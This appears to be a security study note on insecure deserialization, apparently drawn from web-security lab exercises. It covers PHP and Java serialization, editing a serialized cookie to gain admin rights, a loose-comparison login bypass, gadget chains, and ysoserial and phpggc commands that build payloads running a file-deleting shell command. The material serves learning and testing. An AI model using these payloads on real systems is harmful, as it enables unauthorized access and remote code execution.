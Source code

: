 # Insecure deserialization

<details>

<summary>General info</summary>

* Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.

- Deserialization is the process of restoring this byte stream to a fully functional replica of the original object.

* Some languages serialize objects into binary formats, whereas others use different string formats, with varying degrees of human readability.

- To prevent a field from being serialized, it must be explicitly marked as "transient" in the class declaration.

* Insecure deserialization arises because there is a general lack of understanding of how dangerous deserializing user-controllable data can be.

</details>

<details>

<summary>PHP serialization format</summary>

```php
$user->name = "carlos";
$user->isLoggedIn = true;
```

```php
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
```

The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further.

</details>

<details>

<summary>Java serialization format</summary>

* Some languages, such as Java, use binary serialization formats

- Serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hexadecimal and `rO0` in Base64.

* Any class that implements the interface `java.io.Serializable` can be serialized and deserialized. If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`.

</details>

**Important**: a serialized object may not be obvious at first view. Example:

```url
%7b%22token%22%3a%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30%3d%22%2c%22sig_hmac_sha1%22%3a%226d68c7db6f6b4d5abc5e84acea971fd72d217202%22%7d
```

URL decode

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6InRlc3QiO3M6MTI6ImFjY2Vzc190b2tlbiI7czozMjoiZmx6bnQ3ZTRwYTNobGpnN3dpejJkeGxuMHVyN3VkNjYiO30=","sig_hmac_sha1":"6d68c7db6f6b4d5abc5e84acea971fd72d217202"}
```

Base64 token decoding&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"flznt7e4pa3hljg7wiz2dxln0ur7ud66";}
```

## <mark style="color:purple;">Manipulating serialized objects</mark>

* You can either edit the object directly in its byte stream form
* You can write a short script in the corresponding language to create and serialize the new object yourself

### <mark style="color:purple;">Modifying object attributes</mark>

```php
$user = unserialize($_COOKIE);
if ($user->isAdmin === true) {
// allow access to admin interface
}
```

1. Identify serialized object (here in the cookie)
2. Decode it

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}
```

3. Modify attributes&#x20;

```php
O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:1;}
```

4. Re-encode the object and overwrite (the cookie)

{% hint style="info" %}
**Note**: This simple scenario is not common in the wild
{% endhint %}

### <mark style="color:purple;">Modifying data types</mark>

PHP -> if you perform a loose comparison `==` between an integer and a string, PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`.

```php
0 == "Example string" // true
```

```php
$login = unserialize($_COOKIE)
if ($login['password'] == $password) {
    // log in successfully
}
```

Attacker can modify the password attribute so that it contained the integer `0` -> authentication bypass.

{% hint style="info" %}
**Note**:&#x20;

* This is only possible because deserialization preserves the data type.
* When modifying data types in any serialized object format, update any type labels and length indicators in the serialized data too (Otherwise, the serialized object will be corrupted and will not be deserialized).
{% endhint %}

## <mark style="color:purple;">Using application functionality</mark>

* Consider "Delete user" functionality, the user's profile picture is deleted by accessing the file path in the $user->image\_location attribute
* If this $user was created from a serialized object, an attacker could exploit this by passing in a modified object with the image\_location set to an arbitrary file path

## <mark style="color:purple;">Magic methods</mark>

* Magic methods are a special type of method that are automatically triggered by specific events or scenarios, without explicit invocation. Developers use them to define code execution for these events (e.g., `__construct()`). Some languages have magic methods that are invoked automatically during deserialization.
* In Java deserialization, the `ObjectInputStream.readObject()` method is used to read data from the initial byte stream and essentially acts like a constructor for "re-initializing" a serialized object.

```java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
    // implementation
}
```

* They allow you to pass data from a serialized object into the website's code before the object is fully deserialized.

## <mark style="color:purple;">Injecting arbitrary objects</mark>

Deserialization methods often don't validate the objects they process. Attackers can pass any serializable class, allowing them to instantiate arbitrary classes. With source code access, you can:

* Identify classes with deserialization magic methods
* Check if they perform unsafe operations on controllable data
* Then pass in a serialized object of this class to use its magic method for an exploit.

## <mark style="color:purple;">Gadget chains</mark>

* A "gadget" is a code snippet in an application that helps an attacker achieve a goal, such as invoking a method to pass input into another gadget. Many insecure deserialization vulnerabilities are exploitable through gadget chains.
* Identifying gadget chains manually is arduous and nearly impossible without source code access. But if a gadget chain in Java's Apache Commons Collections library is exploitable on one website, other websites using this library may also be vulnerable.

### <mark style="color:purple;">Tools (ysoserial , PHPGGC)</mark>

They lets you select a provided gadget chain for a target library, input a command to execute, and generates a serialized object. This reduces the manual effort of crafting gadget chains, though some trial and error is still needed.

**Java**

```bash
# Tool: https://github.com/frohoff/ysoserial
java -jar ysoserial-all.jar CommonsCollections4 "rm /tmp/file.txt"
# Probably you need to encode the payload into base64
java -jar ysoserial-all.jar CommonsCollections4 "rm /tmp/file.txt" | base64 -w 0
```

**PHP**

```sh
# Tool: https://github.com/ambionics/phpggc
./phpggc -b Symfony/RCE7 system "rm /tmp/file.txt"
```

{% hint style="info" %}
**Note**:&#x20;

* Pay attention if you need to encode (e.g. URL encode) your payload
* A payload might work even if the server returns an error...
{% endhint %}

### <mark style="color:purple;">Working with documented gadget chains</mark>

If no dedicated tool exists for exploiting known gadget chains in the target application's framework, consider searching online for documented exploits to adapt manually.
